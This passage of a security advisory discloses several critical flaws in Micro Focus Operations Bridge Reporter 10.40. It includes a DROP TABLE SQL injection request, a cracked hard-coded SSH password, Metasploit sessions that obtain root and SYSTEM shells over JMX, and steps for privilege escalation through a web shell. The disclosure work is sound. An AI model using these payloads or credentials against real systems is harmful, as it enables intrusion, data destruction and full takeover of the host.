* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Authentication Required
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### Details:

The AdminService web application exposes an endpoint at */MySHR/ServiceReportServlet* that contains a very clear SQL injection:

```java
	protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
		this.doPost(request, response);
	}

	protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
		String viewName = request.getParameter(dbProperties.getProperty("viewName"));
		String cmdbId = request.getParameter(dbProperties.getProperty("ciId"));
		System.out.println("CMDBID is :" + cmdbId);
		System.out.println("CIID is " + dbProperties.getProperty("ciId"));
		Enumeration params = request.getParameterNames();
		while (params.hasMoreElements()) {
			String paramName = (String)params.nextElement();
			System.out.println("Attribute Name - " + paramName + ", Value - " + request.getParameter(paramName));
		}
		String doc = request.getParameter(dbProperties.getProperty("iDocID"));
		String globalId = request.getParameter(dbProperties.getProperty("globalId"));
		if (globalId == null) {
			cmdbId = request.getParameter(dbProperties.getProperty("ciId"));
		} else {
			DBManager db = new DBManager();
			this.connection = db.openDBConnection();
			System.out.println(this.connection);
			try {
				this.statement = this.connection.createStatement();
				this.rs = this.statement.executeQuery("select CI_UID from K_CI where GlobalId='" + globalId + "'");
				if (this.rs != null) {
					while (this.rs.next()) {
						System.out.println("CI UID" + this.rs.getString("CI_UID"));
						cmdbId = this.rs.getString("CI_UID");
					}
				}
			}
			catch (SQLException e) {
				e.printStackTrace();
			}
		}
```

> Snippet 13: *ServiceReportServlet.doPost()*

As it can be seen above, the query being executed embeds the *globalId* parameter, taken directly from an HTTP GET or POST request, without any kind of validation.

This endpoint is accessible by an unauthenticated user, and can be exploited by sending a request such as:

```
GET /MySHR/ServiceReportServlet?globalId='%3bDROP+TABLE+K_CI%3b HTTP/1.1
Host: mfobr.nat:21412
```

The server will respond with a 500 error, but our query will have executed ("';DROP TABLE K_CI"), dropping the table K_CI on the Vertica database and rendering OBR unusable.


### #3: Use of Hard-coded Credentials
* [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
* [CVE-2020-11857](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11857) / [ZDI-20-1215](https://www.zerodayinitiative.com/advisories/ZDI-20-1215/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### Details:

Upon installation on Linux of the SAP BO component, the installer creates a *shrboadmin* user on the system. This use has full logon permissions, as it can be seen in */etc/passwd*:

`shrboadmin:x:1001:1001::/home/shrboadmin:/bin/bash`

Unlike other default passwords, which are described further down in this advisory:
 * there is [no mention in the documentation](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Administer/01_BSM_Reporter/Default_passwords/Changing_Default_Passwords) on how to change the *shrboadmin* password, or even if that is possible
 * there appears to be no way to change it except by using the built-in *passwd* Linux utility, which might break the OBR components that depend on this user
 * throughout the documentation there are plenty of references to logging in as *shrboadmin* and then performing some action, but these only mention [how to login to this account via the root user](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Backup/Database_Backup_Recovery/Restore_SAP_buisnessobj_databse_filesource)

In short, this leads me to believe that this user contains a hard-coded, default password that is not expected or intended to be changed. 

If that is true, what kind of password is it:
* A secure, randomly generated password at product installation?
* A secure, randomly generated password, hard-coded in the product but hard or impossible to find?

Of course the answer to this is no. We just have to take the password hash from */etc/shadow*:

`shrboadmin:paTniwPPVH0Vo:18383:0:99999:7:::`

... and crack it with *john*, the venerable password cracker, which cracks it in **under 1 second**:

`shrboadm         (shrboadmin)`

So here's out secure password: *shrboadm*. To achieve instant remote code execution, we just need to SSH into the host as *shrboadmin*! It's not all bad though, at least it doesn't have sudo access...

But there are ways to escalate privileges to root, which will be discussed below.  Note that this only applies to a Linux installation of SAP BO, Windows installations do not create a *shrboadmin* user.


### #4: Exposed Unauthenticated JMX endpoint 
* [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html)
* [CVE-2020-11856](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11856) / [ZDI-20-1216](https://www.zerodayinitiative.com/advisories/ZDI-20-1216/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### Details:

This vulnerability was found 5 minutes after finishing installing the product (the time it takes to run a *nmap* scan), as shown below:

```
PORT      STATE SERVICE  VERSION
21416/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @10.10.10.123:41123
|             extends
|_              java.rmi.server.RemoteObject

```

OBR exposes a [Java Management Extensions](https://en.wikipedia.org/wiki/Java_Management_Extensions) (JMX) endpoint on port TCP 21416. This is completely intentional, as their [installation documentation](https://docs.microfocus.com/OBR/10.40/OBR_Interactive_Installation/Content/_HPc_Interactive_Document.htm) requires the port to be opened in the server host firewall.

By default, the JMX endpoint is exposed without any authentication by the Tomcat server running the administrative web application.

This means that exploitation is trivial with Metasploit's [java_jmx_server exploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/java_jmx_server.rb):

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.123
rhost => 10.10.10.123
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.123:21416 - Using URL: http://0.0.0.0:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Local IP: http://10.10.10.1:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Sending RMI Header...
[*] 10.10.10.123:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.123:21416 - JMXRMI endpoint on 10.10.10.123:41123
[*] 10.10.10.123:21416 - Proceeding with handshake...
[+] 10.10.10.123:21416 - Handshake with JMX MBean server on 10.10.10.123:41123
[*] 10.10.10.123:21416 - Loading payload...
[*] 10.10.10.123:21416 - Replied to request for mlet
[*] 10.10.10.123:21416 - Replied to request for payload JAR
[*] 10.10.10.123:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.123
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.123:53196) at 2020-05-07 20:55:40 +0700

meterpreter > getuid
Server username: root
meterpreter >
```

On Windows we get code execution as SYSTEM:

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:21416 - Using URL: http://0.0.0.0:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Local IP: http://192.168.1.222:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Sending RMI Header...
[*] 10.10.10.204:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.204:21416 - JMXRMI endpoint on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Proceeding with handshake...
[+] 10.10.10.204:21416 - Handshake with JMX MBean server on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Loading payload...
[*] 10.10.10.204:21416 - Replied to request for mlet
[*] 10.10.10.204:21416 - Replied to request for payload JAR
[*] 10.10.10.204:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:50089) at 2020-05-08 00:08:27 +0700

meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPE-OBR\PMDB\adminServer>whoami
whoami
nt authority\system
```

It should be noted that the OBR documentation includes a ["Hardening" section](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Secure_Deployment/Hardening_the_Operation_Bridge_Reporter/Java_JMX) that specifies how to secure the JMX endpoint.

However I believe this is **an extremely unsafe default configuration**, and the risk is not properly explained to the administrator that is installing OBR for the following reasons:

* Exposed JMX endpoints without authentication are extremely dangerous as they lead to automatic code execution (as demonstrated above)
* There is no mention of this danger in the Hardening documentation
* The procedure to add authentication is complex, and since the dangers are not explained, there is a real risk most administrators will ignore this **apparently optional** configuration
* No product should have such unsafe defaults that allow unauthenticated remote code execution out of the box as SYSTEM / root!


### #5: Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM / root)
* [CWE-276: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)
* [CVE-2020-11855](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11855) / [ZDI-20-1217](https://www.zerodayinitiative.com/advisories/ZDI-20-1217/)
* Risk Classification: Critical
* Attack Vector: Local
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### #5.1: Windows

Installing OBR on Windows requires disabling certain security features like User Account Control (UAC). Software that requires disabling security features in order to install successfully is always a red flag, so I decided to hunt for Windows specific vulnerabilities.

I was not disappointed. Turns out that OBR installs and runs as the SYSTEM user, but turns on "Special Permissions" in the default installation folder (C:\HPE-OBR) and all of its subfolders.

The special permission bits can be seen in the following screenshot:




If we drill down further we can see what actual permissions "normal" (non administrative) users have:



So apparently "normal" users can write files to C:\HPE-OBR and all of its subfolders. 

From here on, privilege escalation from "normal" user to SYSTEM is trivial:

1. Login as a "normal" User (or Guest) to the Windows instance where OBR is installed
2. Create a JSP web shell in Metasploit and start exploit/multi/handler to receive it
3. Copy the web shell to one of the Tomcat webapps directories (such as C:\HPE-OBR\PMDB\BOWebServer\webapps\BI\shell.jsp)
4. Access the shell path on the web server (https://TARGET:8443/BI/shell.jsp)
5. Receive the SYSTEM shell in Metasploit and enjoy!

[Click here for a video that shows the full chain in action](media/obr_win_privesc.mp4).

Note that unlike what will be described for Linux, there is no mention on the documentation that these special folder permissions are set and that they need to be changed.

#### #5.2: Linux

In Linux there is a similar problem: after installing the product, there are several directories that have their permissions set to 777 (read-write-execute allowed by everyone).  Unfortunately for us, none of the Tomcat webapps directories have such permissions. However the Tomcat "bin" directories that contain the startup and shutdown scripts are set to 777.

In order to perform privilege escalation to root, an attacker can simply append or overwrite any of the scripts at:

* /opt/HP/BSM/PMDB/adminServer/bin/
* /opt/HP/BSM/PMDB/BOWebServer/bin/

... and when the Tomcat service stops, starts or restarts, it will execute the commands we enter in those files as root.

It should be noted that Micro Focus' [Hardening documentation](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Secure_Deployment/Hardening_the_Operation_Bridge_Reporter) does specify that these permissions can be changed after installation:
> The 777 permission for files and directories in the location {PMDB_HOME} can be changed to 755. The changepermission.sh script helps you to change permission for the following list of directories:
> 
> * OBR server - {PMDB_HOME} and OBR services
> * BO server - {PMDB_HOME}, /opt/HP/BSM/BOE4/ and SAP BusinessObjects service
> * Vertica server - Vertica installer files and Vertica service

However this begs the question - is it not done when the product has finished installing? Do the majority of administrators run this script by default?

And it gets even worse, as further down it says:

> When you upgrade OBR to a newer version, the permission for the above-mentioned files and directories gets changed to default. You may run the changepermissions.sh script to change the permissions.

While having this specified in the documentation mitigates it somewhat, it is still a horribly insecure default setting. When combined with vulnerability #3 (Use of Hard-coded Credentials), an unauthenticated attacker can login via SSH with the *shrboadmin* account and then escalate its privileges to root when Tomcat restarts.


## Fix / Solutions
Upgrade to the latest Micro Focus Operations Bridge Reporter and not do expose it to unstrusted networks.
Check Micro Focus' [advisory links](https://softwaresupport.softwaregrp.com/doc/KM03775947) for [more details](https://softwaresupport.softwaregrp.com/doc/KM03710590).

## Disclaimer
Please note that Agile Information Security (Agile InfoSec) relies on information provided by the vendor when listing fixed versions or products. Agile InfoSec does not verify this information, except when specifically mentioned in this advisory or when requested or contracted by the vendor to do so.   
Unconfirmed vendor fixes might be ineffective or incomplete, and it is the vendor's responsibility to ensure the vulnerabilities found by Agile Information Security are resolved properly.  
Agile Information Security Limited does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in this advisory. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html).  
For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.


